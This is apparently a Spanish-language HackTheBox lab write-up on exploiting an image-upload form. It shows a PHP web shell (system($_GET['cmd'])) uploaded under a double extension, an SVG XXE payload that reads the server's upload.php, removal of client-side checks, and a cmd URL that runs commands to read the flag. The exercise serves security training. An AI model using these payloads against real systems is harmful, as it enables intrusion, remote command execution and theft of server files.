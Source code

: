 # Laboratorio: Upload Exploitation 📃

1. Visitamos la página web

<p align="center">
    <img src="./assets/Final/01-Web.PNG" width=400>
</p>

---

2. Ahora reuniremos toda la información posible sobre la **página web.**

* En el apartado `Contact Us`, tenemos un formulario en el cual podemos subir uan imagen.

<p align="center">
    <img src="./assets/Final/02-Contact.PNG" width=400>
</p>

* Si vamos al código fuente de la página de `Contact Us` veremos las siguiente rutas y archivos

`<script src="/contact/script.js"></script>`

* **Script.js**
```js
if (!files) {
      $('#upload_message').text("Please select a file");
    } else {
      $.ajax({
        url: '/contact/upload.php',
        type: 'post',
        data: fd,
        contentType: false,
        processData: false,
        success: function (response) {
          if (response.trim() != '') {
            $("#upload_message").html(response);
          } else {
            window.location.reload();
          }
        },
      });
    }
```

* Vemos que se tramita una petición por `POST` a **`upload.php`**

---

3. Subimos una imagen normal, **damos clic en el 🟩 `botón verde` 🟩** e interceptamos la petición con **Burp Suite**

<p align="center">
    <img src="./assets/Final/03-Burpsuite.PNG" width=400>
</p>

* Realizaremos un ataque de **Doble Extensión Reversa**
* 🟦 En la línea azul tenemos que incluir `<?php system($_GET['cmd']); ?>`, para que al momento de cargar el código sea interprado.

---

4. El nombre del archivo será `cmd.phar.png`, si tratamos de acceder a la típica ruta `/profile_images/cmd.phar.png`, veremos que no existe, por lo que en `HackTheBox` nos dicen que podemos leer el `archivo upload.php` 

---

5. Haremos un ataque XXE para leer el archivo `upload.php` alojado en **/var/www/html/upload.php**

* **carrot.svg**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/var/www/html/contact/upload.php"> ]>
<svg>&xxe;</svg>
```

* Eliminamos la validación del `lado del Cliente`
```html
onchange="checkFile(this)"
accept=".jpg,.jpeg,.png"
```

* Lo subimos en el formulario, damos clic en el 🟩 `botón verde` 🟩, y lo interceptamos con `Burp Suite`

<p align="center">
    <img src="./assets/Final/04-Data.PNG">
</p>

---

6. Decodeamos en **base64** el contenido recibido
* **COMANDO:** `echo -n "[Data Base64]" | base64 -d`

* `Contenido Más Relevante`
```php
// uploaded files directory             
$target_dir = "./user_feedback_submissions/";                         
                                                                  
// rename before storing                                                      
$fileName = date('ymd') . '_' . basename($_FILES["uploadFile"]["name"]);  
$target_file = $target_dir . $fileName;
```

* El directorio es `user_feedback_submissions`
* Se realiza un tratamiento al nombre del archivo antes de guardarlo, se coloa el `año` `mes` y `día` luego `_` y el nombre del archivo base
  * **Ej:** `230608_cmd.phar.png`

---

7. Accedemos al archivo, y como podemos ejecutar comandos leemos la flag
* **URL:** `http://[IP]/contact/user_feedback_submissions/[Nombre Archivo]?cmd=cat%20/flag_[ID].txt`

<p align="center">
    <img src="./assets/Final/05-Flag.PNG">
</p>